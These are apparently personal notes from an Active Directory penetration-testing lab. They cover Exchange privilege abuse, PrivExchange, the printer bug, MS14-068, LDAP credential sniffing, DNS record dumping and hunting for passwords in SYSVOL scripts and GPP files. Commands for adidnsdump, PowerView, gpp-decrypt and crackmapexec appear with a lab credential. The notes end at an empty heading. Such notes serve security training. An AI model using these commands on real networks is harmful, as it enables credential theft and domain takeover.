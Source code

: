 ## Exchange Related Group Membership

- Exchange Windows Permissions: can add DCSync privileges to a user
- Organization Management: domain admins of Exchange

If we compromise an Exchange server, this will lead to Domain Admin privileges. Dumping credentials will produce cleartext passwords.

## PrivExchange
Flaw in Exchange Server PushSubscription
- Relay to LDAP and dump the domain NTDS database. Will take you directly to Domain Admin with any authenticated domain user account.

## Printer Bug

**Enumerating for MS-PRN Printer Bug
```
Import-Module .\SecurityAssessment.ps1
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

## MS14-068
Need domain user credentials and can get domain admin with flaw in Kerberos. Allows a forged PAC to be accepted by the KDC as legitimate.

## Sniffing LDAP Credentials
Change the LDAP IP to that of our attack host and set up a netcat listener on port 389 to gain credentials: https://grimhacker.com/2018/03/09/just-a-printer/

## Enumerating DNS Records
https://github.com/dirkjanm/adidnsdump

**Using adidnsdump
```
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

**Viewing the Contents of the records.csv File
```
head records.csv 
```

**Using the -r Option to Resolve Unknown Records
```
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
head records.csv 
```


## Other Misconfigurations

**Password in Description Field
```
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

**Password not Required
```
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

**Credentials in SMB shares and SYSVOL Scripts
```
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

**Discovering an Interesting Script
```
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

**Finding a Password in the Script
```
cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs
```
- Use crackmapexec with --local-auth flag to see if any user has this password

## Group Policy Preference (GPP) Passwords
AES private key: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN

**Decrypting the Password with gpp-decrypt
```
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```
- Manually search SYSVOL or use https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1


**Using CrackMapExec's gpp_autologin Module
```
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```


## ASREPRoasting

